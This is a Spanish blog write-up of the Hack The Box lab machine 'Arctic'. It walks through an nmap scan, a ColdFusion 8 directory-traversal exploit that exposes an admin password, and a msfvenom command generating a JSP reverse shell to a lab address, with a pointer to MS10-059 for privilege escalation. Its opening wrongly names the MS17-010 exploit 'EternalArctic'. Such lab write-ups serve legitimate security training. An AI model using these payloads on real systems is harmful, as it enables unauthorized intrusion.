









Arctic
Posteado el 04-09-2020 por Pablo.

Esta máquina es muy parecida a Legacy desde el punto de vista que el vector de ingreso es una vulnerabilidad muy conocida llamada EternalArctic o MS17-010. Usando Metasploit es fácil aunque hay que correr el exploit varias veces hasta que funcione, las cosas se complican un poco para explotarla de forma manual pero después de un par de horas de investigación salió andando.
Enumeración y Reconocimiento
nmap -A -T4 -p 135, 8500, 49154 10.10.10.11 -oA Optimus

Lo más destacable del resultado de nmap es el puerto 8500 que parece estar registrado al protocolo FMTP ¿?. NO encontré mucha información asi que se me ocurrió entrar con un browser y resulta que había un servidor web.
El servidor enigmatico responde con un listado de directorios, uno se llamaba `CFIDE` así que decidí investigar sobre eso y todo estaba relacionado con **Adobe Coldfusion**. Si uno se sigue perdiendo por el arbol de directorios que se lista se encuentra la página de login:

Explotación
No tengo ni idea de por donde empezar con esta aplicación web así que voy a Serachsploit, aparece una larga lista de exploits pero me llamaron la atención los de Directory Traversal (14641.py).
searchsploit coldfusion 8

Al script se le pasan 3 parámetros:
- Dirección IP del servidor a atacar.
- Puerto del servidor a atacar.
- Path a ciertos archivos hosteados que permiten hacer el DT.

Exitosamente se consigue un hash en SHA1 que si se busca en internet aparece ya crackeado, el password de Admin es happyday!!

¿Que se hace ahora? Casualmente Coldfusion tiene una funcionalidad de tareas programadas en donde se le puede indicar que descargue algo de un servidor remoto, me viene perfecto.
El tema es, ¿Que le subo?

Coldfusion soporta archivos CFM pero nada de ASP o PHP que pueda interpretar, la solución es con msfvenom generar una reverse shell pero en formato jsp:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f raw -o shell.jsp
La máquina es vulnerable a MS10-59 por lo tanto se debería poder usar Chimichurri.exe

Flags
